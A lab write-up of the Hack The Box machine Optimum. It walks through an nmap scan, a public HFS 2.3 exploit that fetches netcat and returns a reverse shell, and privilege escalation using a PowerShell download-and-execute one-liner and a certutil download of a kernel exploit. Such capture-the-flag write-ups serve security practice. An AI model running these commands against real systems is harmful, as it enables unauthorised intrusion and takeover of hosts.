

# Hackthebox - Optimum

- Windows


- [Box on HTB](https://app.hackthebox.com/machines/6)

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.8
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-10 19:50 EDT
Nmap scan report for 10.10.10.8
Host is up (0.022s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.56 seconds
```

## Port 80

- We have an HttpFile Server  
  

- If we google it we find [this exploit](https://www.exploit-db.com/exploits/39161) right away
- We have to get nc.exe in our attacking machine. Kali has binaries hosted so we can just copy and paste it in our working dir like this `cp /usr/share/windows-resources/binaries/nc.exe .`
- We have to serve netcat using python http server `python3 -m http.server 80`
- Then we have to modify the script and add our ip address and our port (I left 443)
- We set a listener `rlwrap nc -lvp 443`
- We launch our exploit `python2 39161 10.10.10.8 80`
- And we get a shell  
  
- We can grab the user flag  
  

## Privesc

- Win version  

  

### Kernel exploits

- `echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.3/Sherlock.ps1') | powershell -noprofile -`

  

- Let's find another exploit than the one mentioned in Sherlock (does not work) `searchsploit ms16-032`  



- Tried a few exploits but none worked
- On google I found [this](https://www.exploit-db.com/exploits/41020)
- And in the comment they mention [this exe file](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)
- We download it in our kali
- Serve it with python
- `certutil.exe -urlcache -f http://10.10.14.3/41020.exe exploit.exe` get it in our target
- We launch it we get a system shell  


- We can grab the root flag  


